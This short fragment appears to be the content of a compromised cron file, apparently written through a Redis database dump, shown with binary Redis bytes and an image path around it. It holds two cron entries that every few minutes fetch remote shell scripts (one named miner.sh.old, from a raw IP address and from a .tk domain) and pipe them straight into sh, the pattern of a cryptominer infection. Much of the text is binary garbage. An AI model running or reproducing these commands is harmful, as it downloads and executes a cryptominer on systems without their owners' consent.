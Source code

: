 Content of cron file

REDIS0006�^@^@
uiuxyxjbfp@@

*/2 * * * * curl ftp://139.59.183.156/images/miner.sh.old|sh

^@^Gcrackit@G


*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh



��^�^VX^�^�%�